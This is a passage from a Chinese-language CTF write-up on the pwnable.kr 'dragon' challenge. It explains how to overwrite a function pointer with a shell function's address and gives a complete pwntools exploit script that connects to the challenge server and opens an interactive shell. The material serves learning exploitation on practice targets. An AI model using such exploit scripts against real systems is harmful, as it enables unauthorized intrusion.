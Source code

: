 ```c
        }
        break;
    }
    if ( *(_DWORD *)(a1 + 4) <= 0 )
    {
      free(ptr);
      return 0;
    }
  }
  while ( *((_BYTE *)ptr + 8) > 0 );
  free(ptr);
  return 1;
}
```

英雄HP刚好够施法次数的使用，覆盖函数指针为shell函数即可，利用脚本如下：

```python
from pwn import *

context.arch = 'i386'
context.log_level = 'debug'

#p = process('./dragon')
p = remote('pwnable.kr', 9004)
p.recvuntil('Knight\n')
p.sendline('1')
for i in xrange(2):
    p.recvuntil('Invincible.\n')
    p.sendline('1')

p.recvuntil('Knight\n')
p.sendline('1')
for i in xrange(4):
    p.recvuntil('Invincible.\n')
    p.sendline('3')
    p.recvuntil('Invincible.\n')
    p.sendline('3')
    p.recvuntil('Invincible.\n')
    p.sendline('2')

p.recvuntil('As:\n')
p.sendline(p32(0x08048DBF)+'A'*12)
p.interactive()
```

# 0x02 总结

题目总体做下来有这样一种感觉：小分题目可能需要些trick和套路，大分题目可能考的是比较正规的漏洞利用知识；同样的道理也适用于这个题目是让你登录系统还是通过网络访问。当然在实际的漏洞利用环境中，一是看信息泄露，然后是对程序内部结构的熟悉掌握，最后是针对漏洞构造有效的利用方式。

